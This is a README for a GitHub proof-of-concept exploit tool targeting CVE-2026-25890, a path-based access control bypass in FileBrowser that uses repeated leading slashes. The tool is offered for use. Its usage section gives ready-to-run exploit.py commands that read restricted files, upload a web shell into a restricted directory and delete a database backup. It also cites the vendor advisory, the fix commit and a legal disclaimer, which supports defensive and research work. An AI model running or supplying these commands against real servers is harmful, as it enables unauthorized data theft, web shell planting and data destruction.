

# CVE-2026-25890 - FileBrowser Access Control Bypass


**Unauthenticated users cannot exploit this — requires valid low-privileged credentials that are restricted from the target path.**

Path-based authorization bypass in FileBrowser ≤ v2.57.0 using multiple leading slashes (`//private` instead of `/private`) to evade `strings.HasPrefix()` checks while the filesystem still serves the canonical path.

Fixed in **v2.57.1** (commit `489af403...` – removed `r.SkipClean(true)`).

## 📦 Features

- Read restricted files
- Upload files into restricted directories
- Delete restricted files
- Custom number of leading slashes for bypass testing
- Save leaked files locally
- Verbose content preview
- Clean CLI with argparse

## 🛠️ Installation

```bash
# Clone the repository
git clone https://github.com/banyamer/CVE-2026-25890-FileBrowser-Bypass.git
cd CVE-2026-25890-FileBrowser-Bypass

# No dependencies beyond standard library + requests
pip install requests
```

## 🚀 Usage

```bash
python3 exploit.py --help
```

### Basic examples

```bash
# Read a restricted file
python3 exploit.py \
  --url http://192.168.1.50:8080 \
  --username bob \
  --password password123 \
  --path /private/secret.txt \
  --action read \
  --save leaked_secret.txt \
  --verbose
```

```bash
# Upload malicious file into restricted folder
python3 exploit.py \
  --url http://target:8080 \
  --username lowpriv \
  --password pass \
  --path /data/ \
  --action upload \
  --upload-file webshell.php \
  --slashes 3
```

```bash
# Delete a restricted file
python3 exploit.py \
  --url http://10.10.10.123:80 \
  --username alice \
  --password secret \
  --path /backups/database.bak \
  --action delete \
  --slashes 4
```

## 📊 PoC Attack Flow



## ⚠️ Legal & Ethical Disclaimer

> This proof-of-concept is provided **strictly for educational and security research purposes**.  
> Do **not** use this code against any system without **explicit written permission** from the owner.  
> Unauthorized access or modification of systems is illegal under most jurisdictions (e.g. CFAA, Computer Misuse Act).

## 📜 References

- [GitHub Advisory GHSA-4mh3-h929-w968](https://github.com/filebrowser/filebrowser/security/advisories/GHSA-4mh3-h929-w968)
- [Fix Commit](https://github.com/filebrowser/filebrowser/commit/489af403a19057f6b6b4b1dc0e48cbb26a202ef9)
- [Release v2.57.1](https://github.com/filebrowser/filebrowser/releases/tag/v2.57.1)

## ❤️ Credits

Exploit Author: **Mohammed Idrees Banyamer**  
Country: Jordan  
Instagram: [@banyamer_security](https://instagram.com/banyamer_security)

Star ⭐ the repo if you find it useful!

---
Last updated: February 2026

